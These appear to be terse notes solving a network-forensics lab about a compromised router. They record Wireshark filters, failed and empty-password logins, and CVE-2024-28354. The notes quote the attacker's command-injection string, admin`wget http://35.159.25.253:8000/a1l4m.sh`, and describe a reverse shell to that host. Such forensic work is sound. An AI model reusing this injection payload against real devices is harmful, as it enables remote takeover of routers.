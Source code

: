 task 1
	Router model name found in login page which is fetched from pcap GET request to router.

task 2
	 There is a get request for a success.txt?ipv4 in packets so searching for this string in filter `http && frame contains "success.txt"`  gave four hits of which 2 were incorrect login attempts before access.

task 3,4
	 filter for post http requests. `apply_sec.cgi` where the password is nothing logged at time `2024-05-01 15:53:27`

task 5
	 after dumping javascript files log_pass is the field or param for password and filter `frame contains "log_pass" && http.request.method == "POST"` gave a few packets which showed the first password length is zero

pandoraBox.js file contains an array os asp pages.
task 6
	 online search for vulns gave 2.10 fw version

task 7
	 with the online search command injection is identified in apply.cgi file in which usbapps.config.smb_admin_name key allows users to enter commands as admin\`whoami\`

task 8
	 google search for tew87url or whatever samba led to 
	 https://www.cybersecurity-help.cz/vdb/SB2024031936
	 CVE-2024-28354
	 also there is a previous vuln  at https://www.tenable.com/security/research/tra-2021-54

task 9,10
	 in wireshark going for all the packets to apply.cgi and checking for task7 param for commands identified admin`wget http://35.159.25.253:8000/a1l4m.sh`

task 11
	 opening the stream gave the response message `Access to this resource is forbidden`

task 12
	 looking for GET requests on `all4m.sh` got the bash file inside which a reverse shell is connecting to `35.159.25.253` on port `41143`
